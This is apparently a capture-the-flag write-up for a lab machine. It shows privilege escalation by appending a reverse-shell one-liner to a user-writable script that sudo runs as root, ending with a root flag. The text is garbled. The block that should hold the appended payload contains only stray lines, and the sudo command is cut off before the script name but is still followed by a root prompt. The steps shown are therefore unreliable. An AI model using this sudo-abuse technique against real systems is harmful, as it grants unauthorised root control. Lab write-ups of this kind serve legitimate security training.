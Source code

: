 ```bash
# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))

```

The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user and writeable.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a root shell one-liner:

```bash
shift $(($OPTIND -1))

#! /bin/bash
```

If we cat the `monitor.sh` file, we will see the contents appended to the end. `It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.` Execute the script with `sudo`:

```bash
$ sudo /home/nibbler/personal/stuff/ 

root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```

Pwned!
